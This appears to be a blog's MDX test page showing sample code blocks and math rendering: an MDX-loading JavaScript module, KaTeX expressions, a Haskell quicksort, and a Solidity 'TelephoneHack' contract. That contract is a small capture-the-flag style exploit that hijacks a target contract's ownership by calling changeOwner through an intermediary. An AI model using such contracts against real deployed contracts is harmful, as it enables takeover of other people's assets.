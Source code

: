 ```yaml
---
title: Test
slug: test
published: 05-15-2023
lastEdited:
---
```


Here is some text with `Inline code`.

```js
// Hi there!!!!
import { bundleMDX } from "mdx-bundler";
import fs from "fs";
import path from "path";
import { removeFileExtension } from "@/utils/helpers/global";
import { remarkMath } from "remark-math";
import { rehypeKatex } from "rehype-katex";

const getFilesByCategory = (category) => {
  console.log("BOOP");
  const contentDirectory = path.join(process.cwd(), "content", category);
  const fileNames = fs.readdirSync(contentDirectory);
  const cleanedFileNames = fileNames.map((name) => removeFileExtension(name));

  return cleanedFileNames;
};

const getFileContent = async (category, slug) => {
  const filePath = path.join(process.cwd(), "content", category, `${slug}.mdx`);
  const fileContents = fs.readFileSync(filePath, "utf8");
  const { code, frontmatter } = await bundleMDX({
    source: fileContents,
    xdmOptions(options) {
      options.remarkPlugins = [...(options.remarkPlugins ?? []), remarkMath];
      options.rehypePlugins = [...(options.rehypePlugins ?? []), rehypeKatex];

      return options;
    },
  });

  return { code, frontmatter };
};

export { getFilesByCategory, getFileContent };
```

Here's an inline math expression: <InlineMath>{'\\sqrt{a^2 + b^2}'}</InlineMath>. And here's a displayed math expression:

<BlockMath>
  {"\\int_{-\\infty}^\\infty e^{-x^2/2} dx = \\sqrt{2\\pi}"}
</BlockMath>

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface ITelephone {
    function changeOwner(address _owner) external;
}

contract TelephoneHack {
    ITelephone target;

    constructor(address _targetAddress){
        target = ITelephone(_targetAddress);
    }

    function attack() external {
        target.changeOwner(msg.sender);
    }
}
```

```haskell
quicksort :: (Ord a) => [a] -> [a]
quicksort [] = []
quicksort (x:xs) = (quicksort small) ++ [x] ++ (quicksort big)
where
        small  = filter (< x) xs
        big = filter (>= x) xs
```
